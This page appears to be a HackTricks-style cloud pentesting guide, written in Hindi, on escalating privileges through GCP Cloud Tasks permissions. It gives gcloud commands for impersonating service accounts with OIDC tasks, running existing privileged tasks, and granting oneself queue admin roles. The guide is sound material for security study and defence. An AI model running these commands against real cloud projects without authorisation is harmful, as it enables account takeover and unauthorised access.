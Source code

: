 # GCP - Cloud Tasks Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Cloud Tasks

### `cloudtasks.tasks.create`, `iam.serviceAccounts.actAs`

इन अनुमतियों के साथ एक हमलावर **अन्य सेवा खातों का अनुकरण** कर सकता है, जो निर्दिष्ट सेवा खाते की पहचान के साथ कार्यों को बनाने की अनुमति देता है। यह **IAM-संरक्षित Cloud Run या Cloud Functions** सेवाओं को **प्रमाणीकृत HTTP अनुरोध भेजने** की अनुमति देता है।
```bash
gcloud tasks create-http-task \
task-$(date '+%Y%m%d%H%M%S') \
--location us-central1 \
--queue <queue_name> \
--url 'https://<service_name>.us-central1.run.app' \
--method POST \
--header 'X-Hello: world' \
--body-content '{"hello":"world"}' \
--oidc-service-account-email <account>@<project_id>.iam.gserviceaccount.com
```
### `cloudtasks.tasks.run`, `cloudtasks.tasks.list`

इन अनुमतियों के साथ एक हमलावर **मौजूदा निर्धारित कार्यों को चला सकता है** बिना उस कार्य से जुड़े सेवा खाते पर अनुमतियों के। यह उच्च विशेषाधिकार वाले सेवा खातों के साथ पहले से बनाए गए कार्यों को निष्पादित करने की अनुमति देता है।
```bash
gcloud tasks run projects/<project_id>/locations/us-central1/queues/<queue_name>/tasks/<task_id>
```
इस कमांड को निष्पादित करने वाला प्रमुख **`iam.serviceAccounts.actAs` अनुमति की आवश्यकता नहीं है** कार्य की सेवा खाते पर। हालाँकि, यह केवल मौजूदा कार्यों को चलाने की अनुमति देता है - यह कार्यों को बनाने या संशोधित करने की क्षमता नहीं देता है।

### `cloudtasks.queues.setIamPolicy`

इस अनुमति के साथ एक हमलावर **अपने लिए या अन्य प्रमुखों को Cloud Tasks भूमिकाएँ प्रदान कर सकता है** विशिष्ट कतारों पर, संभावित रूप से `roles/cloudtasks.admin` तक बढ़ते हुए, जिसमें कार्यों को बनाने और चलाने की क्षमता शामिल है।
```bash
gcloud tasks queues add-iam-policy-binding \
<queue_name> \
--location us-central1 \
--member serviceAccount:<account>@<project_id>.iam.gserviceaccount.com \
--role roles/cloudtasks.admin
```
यह हमलावर को किसी भी सेवा खाते को जो वे नियंत्रित करते हैं, कतार पर पूर्ण Cloud Tasks व्यवस्थापक अनुमतियाँ देने की अनुमति देता है।

## संदर्भ

- [Google Cloud Tasks Documentation](https://cloud.google.com/tasks/docs)

{{#include ../../../banners/hacktricks-training.md}}

